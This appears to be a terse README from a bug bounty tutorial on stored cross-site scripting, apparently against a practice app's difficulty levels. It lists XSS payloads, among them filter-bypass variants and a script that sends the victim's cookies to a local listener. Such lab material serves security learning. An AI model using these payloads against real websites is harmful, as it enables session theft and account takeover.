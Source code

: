 # bug-bounty-tutorial
bug bounty tutorial

## 18.XSS-store

### clear send to burp suite repeater

### low in name & message
```
python3 -m http.server 3000
<script>alert("XSS");</script>
```
### change textarea size
```
<script>window.location="http://127.0.0.1:3000/?cookie="+document.cookie</script>
```
### medium
### change input size
```
<ScRipT>window.location="http://127.0.0.1:3000/?cookie="+document.cookie</script>
<scr<script>ipt>window.location="http://127.0.0.1:3000/?cookie="+document.cookie</script>
<scr<script>ipt>alert(document.cookie)</script>
```

### high
### burp suite
### ctrl u encode url
```
<a onclick="alert(1)" style=display:block>test</a>
<a onclick="alert(document.cookie)" style=display:block>test</a>
```

### imposible
